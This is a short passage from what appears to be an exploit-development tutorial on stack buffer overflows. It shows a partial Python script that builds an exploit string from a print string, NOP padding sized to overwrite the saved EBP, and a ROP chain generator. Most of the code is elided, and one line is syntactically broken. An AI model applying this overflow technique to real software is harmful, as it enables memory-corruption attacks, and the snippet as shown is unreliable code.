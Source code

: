 ![stack diagram](res/stack.png)

We can now include some logic in our script to add padding to the beginning of our exploit:

```python
PRINT_STRING = 'SUCCESS!\n'

# fill the buffer + padding + old ebp
NOP_SIZE = BUFFER_SIZE - len(PRINT_STRING) + 8 + 4
.
.
.

def main():
  .
  .
  .
  # Add padding to chain
  exploit = PRINT_STRING +\
            '\x90' * NOP_SIZE
            generate_rop()

  print(exploit)

```